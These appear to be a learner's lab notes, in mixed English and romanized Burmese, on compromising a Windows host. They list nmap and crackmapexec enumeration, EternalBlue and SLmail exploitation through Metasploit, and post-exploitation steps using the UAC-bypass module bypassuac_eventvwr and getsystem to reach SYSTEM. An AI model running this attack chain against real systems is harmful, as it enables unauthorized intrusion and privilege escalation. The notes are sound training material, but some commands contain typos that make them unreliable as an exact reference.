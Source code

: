 

nmap  10.0.0.1 -sV -sC  (i saw rdp port was open)

nmap 10.0.0.1 -O

crackmapexec smb 10.0.0.1

rdesktop 10.0.0.1    -> rdp htal win dat pone san ( but we need username and password)

crackmapexec smb 10.0.0.1 --share   => share file twe ko kyi dar ( tool a thint lay paw)

we saw SLmail smtpd service when we enum

and then we found exploit -> and then run with metasploit - > we gotdone bro

**##### we must change payload for everytimes 

smb run nay yin eternalblue pouk phot myar dal ( at port 445 )


****# nmap net script ye nee

nmap -p 445 --script=smb-vlun-ms17-010 10.0.0.1      -> script n nout ka har ka exploit version

we can find exploit like that
eternalblue exploit dev.io **##



----
metasploit ma  post exploition

getuid -> we get ccp -> system access paw lan

bg      -> background htal htat dar

sessions -l   -> session ko kyi dar

search suggester    -> suggest yu dr

use 0    -> use lit dar

options    -> option kyi dar

set session 2    => session -l mar kyi done ka 2 twe lot hehe

exploit    -> done



--> we found exploit name ( bypassuac_eventvwr)

search bypassuac_eventvwr   -> exploit name net shar dar

options   -> show dar

set session 2  -> session 2 shi dar lot

session -l  -> port 444 ka a lote lot nay dal

set LPORT 555  -> 444 ks use htar pee thar mot

exploit   -> done

getuid -> check dar -> but root ma pyint tay buu 

getsystem    -> system user ya aung 

getuid  -> we got system hahah##




